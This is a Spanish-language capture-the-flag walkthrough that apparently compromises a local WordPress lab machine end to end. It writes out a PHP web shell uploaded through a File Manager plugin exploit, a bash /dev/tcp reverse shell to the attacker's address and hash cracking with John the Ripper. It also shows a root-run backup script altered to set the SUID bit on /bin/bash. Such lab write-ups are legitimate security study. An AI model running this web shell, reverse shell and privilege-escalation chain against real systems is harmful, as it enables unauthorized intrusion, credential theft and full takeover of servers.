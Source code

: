 #WordPress #RCE #ReverseShell #MySQL #BruteForce #SUID
[[192.168.1.19 (Atacante)]]

--------

Hacemos un primer reconocimiento con [[NMAP]]
`nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 192.168.1.23 -oG allPorts`

Obtendremos los siguientes puertos:
```js
[*] IP Address: 192.168.1.23
[*] Open ports: 22,80
```

Hacemos un escaneo mas exhaustivo sobre estos dos puertos con [[NMAP]]
`nmap -p22,80 -sCV 192.168.1.23 -oN targeted`

Obtendremos la siguiente información de los puertos:
```js
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 48:df:48:37:25:94:c4:74:6b:2c:62:73:bf:b4:9f:a9 (RSA)
|   256 1e:34:18:17:5e:17:95:8f:70:2f:80:a6:d5:b4:17:3e (ECDSA)
|_  256 3e:79:5f:55:55:3b:12:75:96:b4:3e:e3:83:7a:54:94 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
```


### WEB

Con el servicio en el puerto 80 levantado, navegamos con Firefox a la IP y usamos [[WHATWEB]] para ver que contiene la web e información sobre esta:
`whatweb http://192.168.1.23/`

```python
http://192.168.1.23/ [200 OK] Apache[2.4.38], Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.38 (Debian)], IP[192.168.1.23]
```


Haremos una enumeración de la web con la herramienta [[GOBUSTER]]
`gobuster dir -u http://192.168.1.23/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -t 20 -x html,php,txt`

Nos enumerara los siguientes directorios:
```js
/index.html
/blog
/javascript
```

Si navegamos a `/blog` vemos que es un WordPress tendremos que añadirlo en el `/etc/hosts`, ahora recargamos la web y se vera el contenido como es.

Volveremos a enumerar el  [[00.- WORDPRESS]], con la herramienta [[WPSCAN]]
`wpscan --url http://192.168.1.23/blog/ --enumerate u,vp --plugins-detection aggressive`

Descubriremos un usuario llamado `wp-admin`, también si usamos el API token de [[WPSCAN]] podremos enumerar posibles vulnerabilidades. `$WPTOKEN` es una variable en la ZSHRC con el API token de WPScan
`wpscan --url http://192.168.1.23/blog/ --enumerate u,vp --plugins-detection aggressive --api-token=$WPTOKEN`

Al usar el Token lo que nos otorga son vulnerabilidades que ha habido sobre esa versión o esos plugins pudiendo así facilitarnos a la hora de realizar la explotación en esta caso usaremos el siguiente POC que nos otorga:
`https://wpscan.com/vulnerability/e528ae38-72f0-49ff-9878-922eff59ace9`

No da un script de Python con el POC, así que lo descargamos con wget:
`wget https://ypcs.fi/misc/code/pocs/2020-wp-file-manager-v67.py`

Una vez descargado vemos en el código que llama a un archivo `.php` llamado `payload.php` lo creamos con el siguiente contenido que nos facilitara dar ordenes con el comando cmd:
```php
<?php
	echo"<pre>" . shell_exec($_REQUEST['cmd']) . "<pre>";
?>
```

Ahora una vez creado deberemos ejecutar el python:
`python3 2020-wp-file-manager-v67.py http://192.168.1.23/blog/`

Nos dará un código de estado 200 y nos indicara donde se encuentra el fichero que hemos creado, en este caso la siguiente:
`http://192.168.1.23/blog/wp-content/plugins/wp-file-manager/lib/files/payload.php`

Al finalizar la URL podemos añadir `?cmd=<comando>` para ejecutar comandos en la cmd de la maquina victima.

Como tenemos ejecución remota de comandos `RCE` nos ponemos en nuestra maquina atacante en escucha en el puerto `443`
`nc -nlvp 443`

Y en la web nos lanzamos una reverse shell:
`bash -c "bash -i >%26 /dev/tcp/192.168.1.19/443 0<%261"`

Obtendremos una shell y hacemos le tratamiento de la TTY

Navegamos a `/home` y veremos los usuarios y en usuario `hagrid98` encontramos el primer horocrux(Flag)

Para acceder a la información del wordpres buscamos en la ruta `cat /etc/apache2/sites-enabled/wordpress.conf`, y este nos dirá en donde se encuentra alojado el wordpress, que es en:
`/usr/share/wordpress`

En el `wp-config.php` no encontramos ninguna contraseña pero vemos que este esta llamando a `/etc/wordpress/config-default.php` así que lo leemos para ver que contiene

Y encontramos las credenciales del usuario root de la base de datos del wordpress `root::mySecr3tPass`

Nos conectamos en la base de datos `mysql -uroot -p` y cuando nos pida la contraseña la introducimos, listaremos las bases de datos:
`show databases;` vemos que hay una llamada wordpress, navegamos a ella
`use wordpress;` vemos las tablas que contiene
`show tables;` vemos la tabla `wp_users` así que listamos su contenido
`describe wp_users;` y seleccionaremos todo los que hay dentro de esta tabla
`select * from wp_users;` nos mostrara los usuarios con sus contraseñas las cuales se pueden crakear por fuerza bruta, nos la copiamos en un fichero llamado `hash` para intentar crackearlo con fuerza bruta.

Usaremos la herramienta [[JOHN THE RIPPER]]
`john --wordlist=/usr/share/wordlists/rockyou.txt hash `

Nos devolverá las credenciales del usuario `hagrid98::password123`

Nos podremos conectar con el usuario por `SSH`
`ssh hagrid98@192.168.1.23`

Vamos a buscar binarios que tengan permisos SUID como root
`find / -perm -4000 2>/dev/null` No encontramos nada relevante

Ahora buscamos en donde el propietario sea `hagrid`
`find / -user hagrid98 2>/dev/null`

Vemos un fichero en `/opt/.backup.sh` que puede ser sospechoso y el usuario es `hagrid`
Este fichero lo que hace es realizar una copia de forma recursiva de un fichero a otro fichero

Alteraremos el script para que la bash tenga de privilegios `4755` para que sea SUID y tener propietario root y así poder lanzarla como root
`nano /opt/.backup.sh`

```bash
#!/bin/bash

cp -r /usr/share/wordpress/wp-content/uploads/ /tmp/tmp_wp_uploads 
chmod u+s /bin/bash
```

Esta linea que añadimos es la que nos cambia los permisos a SUID a la bash

Ejecutamos `bash -p` una vez la bash tenga los permisos SUID, y seremos el usuario root




